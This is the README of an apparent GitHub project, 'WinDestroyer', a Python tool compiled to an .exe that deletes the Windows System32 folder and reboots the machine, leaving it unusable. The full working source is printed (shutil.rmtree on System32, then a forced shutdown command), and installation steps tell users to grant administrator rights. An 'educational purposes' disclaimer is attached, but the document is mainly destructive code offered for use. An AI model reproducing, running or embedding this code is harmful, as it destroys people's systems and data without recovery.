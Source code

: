 
# WinDestroyer



## What's WinDestroyer?

WinDestroyer is a straightforward program to remove the `System32` folder from Windows. In this way, the operating system will be destroyed. I am not responsible for any misuse of WinDestroyer, this is a project for educational purposes only and without any unethical intention.
## How does it work?

WinDestroyer is created in Python, but has been compiled into an .exe file for simplicity. Here's the code with evereything commented.
```python
# Imports necessary packages.

import shutil
import os
import time
from colorama import Fore, Style, init
import ctypes

# Sets a title to the window.

ctypes.windll.kernel32.SetConsoleTitleW("Win Destroyer")

# Starts colorama (for colors).

init()

# Shows banner.

print(f"""
{Fore.BLUE}
██╗    ██╗██╗███╗   ██╗    ██████╗ ███████╗███████╗████████╗██████╗  ██████╗ ██╗   ██╗███████╗██████╗ 
██║    ██║██║████╗  ██║    ██╔══██╗██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔═══██╗╚██╗ ██╔╝██╔════╝██╔══██╗
██║ █╗ ██║██║██╔██╗ ██║    ██║  ██║█████╗  ███████╗   ██║   ██████╔╝██║   ██║ ╚████╔╝ █████╗  ██████╔╝
██║███╗██║██║██║╚██╗██║    ██║  ██║██╔══╝  ╚════██║   ██║   ██╔══██╗██║   ██║  ╚██╔╝  ██╔══╝  ██╔══██╗
╚███╔███╔╝██║██║ ╚████║    ██████╔╝███████╗███████║   ██║   ██║  ██║╚██████╔╝   ██║   ███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝╚═╝  ╚═══╝    ╚═════╝ ╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝╚═╝  ╚═╝
{Fore.CYAN}
| By H64Ox
| GitHub repository: https://github.com/H64Ox/WinDestroyer
""")

# Waits for execution.

time.sleep(1)

# Asks if the user is sure of what's he doing.

start = input(f"{Fore.RED}Are you sure you want to proceed? (this will destroy your system!) [yes / no] ")

while True:
    if start.lower() == 'no':
        print(f"{Fore.CYAN}OK, cancelling operation.")
        time.sleep(1)
        break
    elif start.lower() == 'yes':
        confirm = input(f"{Fore.RED}Please confirm you want to proceed [yes / no] ")

        while True:
            if confirm.lower() == 'no':
                print(f"{Fore.CYAN}OK, cancelling operation.")
                time.sleep(1)
                break
            elif confirm.lower() == 'yes':

                # If user accepted, proceeds to remove System32.

                print(f"{Fore.RED}Removing System32...")
                shutil.rmtree(r"C:\Windows\System32\\", ignore_errors=True)

                # Reboots system to complete the operation.

                print(f"{Fore.CYAN}Done! Restarting PC...")
                os.system("shutdown /r /t 1")
                break
            else:
                confirm = input(f"{Fore.RED}Invalid answer. Please try again [yes / no] ")
        break
    else:
        start = input(f"{Fore.RED}Invalid answer. Please try again [yes / no] ")
```
## Installation

1. Go to the [releases page](https://github.com/H64Ox/WinDestroyer/releases/tag/release) and download the latest WinDestroyer version. You should see a file called `WinDestroyer.exe` where you have downloaded it.

2. When you run it, it will ask you to grant administrator privileges. Simply click on accept.

3. It will ask you twice if you are sure to proceed (Reminder: this will completely destroy your computer).

4. After it completes the operation, the PC will restart and, then, the PC will not work anymore.
